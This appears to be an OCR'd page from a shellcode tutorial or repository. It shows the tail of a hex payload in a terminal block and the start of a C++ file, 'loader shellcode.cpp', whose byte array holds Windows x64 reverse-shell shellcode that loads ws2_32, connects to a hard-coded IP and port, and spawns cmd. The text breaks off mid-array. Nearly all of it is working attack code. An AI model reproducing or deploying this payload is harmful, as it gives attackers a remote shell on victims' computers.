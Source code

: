 ```bash
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x11\xc1\x0a\x86\xd9\xd8"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
kant@APPLEs-MacBook-Pro ~> 
```

## loader shellcode.cpp

```cpp
#include <windows.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

unsigned char my_payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x11\xc1\x0a\x86\xd9\xd8"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
```